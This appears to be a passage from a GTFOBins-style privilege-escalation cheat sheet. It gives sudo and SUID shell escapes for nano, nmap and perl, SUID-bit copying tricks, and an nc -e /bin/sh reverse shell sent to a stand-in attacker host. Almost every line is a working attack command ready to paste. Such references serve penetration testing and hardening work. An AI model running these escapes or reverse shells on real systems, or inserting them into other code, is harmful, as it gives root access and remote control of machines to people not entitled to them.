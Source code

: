 # NANO
### SUDO
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
### SUID
```
sudo sh -c 'cp $(which nano) .; chmod +s ./nano'

./nano
^R^X
reset; sh 1>&0 2>&0
```
# NC
### SUDO
```
# Run nc -l -p 12345 on the attacker box to receive the shell. This only works with netcat traditional.

RHOST=attacker.com
RPORT=12345
sudo nc -e /bin/sh $RHOST $RPORT
```

# NMAP
### SUDO
```
#   Input echo is disabled.

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

#   The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

sudo nmap --interactive
nmap> !sh
```
### SUID
```
sudo sh -c 'cp $(which nmap) .; chmod +s ./nmap'

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
./nmap --script=$TF
```
# PERL
### SUDO
```
sudo perl -e 'exec "/bin/sh";'
```
### SUID